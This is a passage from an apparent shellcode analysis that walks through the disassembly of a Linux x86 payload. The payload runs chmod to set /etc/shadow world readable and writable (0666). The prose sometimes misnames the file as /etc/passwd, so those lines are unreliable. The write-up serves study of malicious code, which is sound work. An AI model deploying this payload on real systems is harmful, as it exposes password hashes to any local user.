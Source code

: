 ```nasm
00000004  52                push edx
00000005  E80C000000        call 0x16
```

Here, a `PUSH EDX` instruction is used to push four NULL bytes to the stack which will serve as a delimiter for the pathname argument for `chmod`. As explained in the two previous shellcode payloads, a `CALL` command is used to store a string on the stack and to redirect execution flow to the memory address specified in the `CALL` instruction (`0x16` in this case).

```nasm
0000000A  2F                das
0000000B  657463            gs jz 0x71
0000000E  2F                das
0000000F  7368              jnc 0x79
00000011  61                popa
00000012  646F              fs outsd
00000014  7700              ja 0x16
```

As a result of the `CALL 0x16` instruction, the bytes shown above will be stored on the stack beginning at the memory address `0000000A`. Further analysing these bytes reveals that the bytes correlate to the string shown below.

```shell
>>> print('\x2f\x65\x74\x63\x2f\x73\x68\x61\x64\x6f\x77')
/etc/shadow
```

From this, it is clear that the file that will be modified by the `chmod` function will be the `/etc/passwd` file.

```nasm
00000016  5B                pop ebx
00000017  68B6010000        push dword 0x1b6
0000001C  59                pop ecx
0000001D  CD80              int 0x80
```

The `CALL 0x16` instruction mentioned previously results in execution flow being redirected to the memory address located `0x16` bytes from the beginning of the shellcode which contains the operation codes shown above.

As the memory address `0000000A` contains the string `/etc/shadow` and is currently stored on the top of the stack, the `POP EBX` command will result in the memory address containing the aformentioned `/etc/shadow` string being stored in the `EBX` register. This will soon be passed as the pointer to a pathname for the first argument expected by `chmod`.

Next, the value `0x1b6` is pushed to the stack and subsequently stored in `ECX` by a `POP` instruction. The hexadecimal value `0x1b6` converted to its corresponding octal value (as commonly used in command line usage of `chmod`) is `0o666`. As expected, this would suggest that the `r` (read) and `w` (write) bits will be set for the owner of the `/etc/passwd` file, users in the group to which the `/etc/passwd` file belongs, as well as to all other users. In other words, the `/etc/passwd` file will be world readable and world writeable after once its mode is changed by `chmod`. A software interrupt `INT 0x80` instruction calls `chmod` with the described arguments.

```nasm
0000001F  6A01              push byte +0x1
00000021  58                pop eax
00000022  CD80              int 0x80
```

